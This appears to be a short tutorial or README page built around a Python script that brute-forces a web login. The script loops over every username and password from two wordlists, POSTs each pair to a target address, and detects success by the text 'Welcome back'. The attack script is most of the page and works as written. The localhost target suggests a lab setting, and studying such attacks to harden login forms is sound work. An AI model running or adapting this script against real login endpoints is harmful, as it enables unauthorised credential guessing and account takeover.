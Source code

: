 Use the request module to make a login bruteforce attack.

Being a double for loop, the time complexity is __O(n^2)__

The _needle_ is a specific piece of data that we know is contained in the event following a successfull login.


```python
import requests
import sys

prefix = "http://"
target_ip = "127.0.0.1"
target_port = ":5000"
target = prefix + target_ip + target_port

needle = "Welcome back"  # This is text returned in the content after a successful web POST login

usernames = "usernames_list.txt"
passwords = "passwords_list.txt"

with open(usernames, 'r') as usernames_list:
    for username in usernames_list:
        username = username.strip()  # Remove newline characters
        with open(passwords, 'r') as passwords_list:
            for password in passwords_list:
                password = password.strip("\n").encode() 
                r = requests.post(target, data={"username": username, "password": password})
                if r.status_code == 200 and needle in r.text:
                    sys.stdout.write("Valid Username:{} Password:{}".format(username, password))
                    sys.stdout.flush()
                    sys.exit()
            sys.stdout.write("No password found for Username:{}\n".format(username))
            sys.stdout.flush()
```
